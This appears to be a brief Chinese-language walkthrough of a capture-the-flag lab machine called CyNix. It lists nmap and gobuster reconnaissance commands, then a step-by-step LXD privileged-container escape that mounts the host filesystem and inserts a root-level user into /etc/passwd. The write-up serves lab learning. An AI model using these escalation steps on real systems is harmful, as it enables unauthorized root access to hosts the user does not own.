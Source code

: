 ```yaml
---
title: CyNix
date: 2020-12-28 21:04:11
tags:手机 
---
```


## 0x01 信息收集

`nmap -p- -T5 192.168.43.155`扫描开放端口

`nmap -sV -p 80,6688 -A 192.168.43.155 -oA cynix`扫描指定端口

`gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir -u http://192.168.43.155 -t 100`扫描目录

要给密钥权限 `chmod 600 id_rsa`

## 0x02 权限提升

`lxd`提权利用。

`lxc image list`查看本地有无镜像文件

`lxc init ubuntu:16.06 Dem0 -c sercurity.privileged=true`挂载靶机 很慢很辣鸡

```
https://github.com/saghul/lxd-alpine-builder 下载这个玩意
```

![image-20201229202202521](https://i.loli.net/2020/12/29/iEx7LI3zSTYWt51.png)

常用文件请保存。

`lxc image import alpine-v3.12-x86_64-20201229_0719.tar.gz  --alias Dem0`导入镜像文件

`lxc init Dem0 Dem0 -c security.privileged=true`创建容器

`lxc config device add Dem0 Dem0 disk source=/ path=/mnt/root recursive=true`配置路径

`lxc start Dem0`启动

`lxc exec Dem0 /bin/sh`进入交互

利用`/etc/passwd`

```0
openssl passwd -1 salt Dem0 123456
```

```
dem0:1$dem0$LWnFTKnLwV4gGwR8yOaTr1:0:0:root:/root:/bin/bash
```

![image-20201229210116145](https://i.loli.net/2020/12/29/cLXge3jCUBaRDsn.png)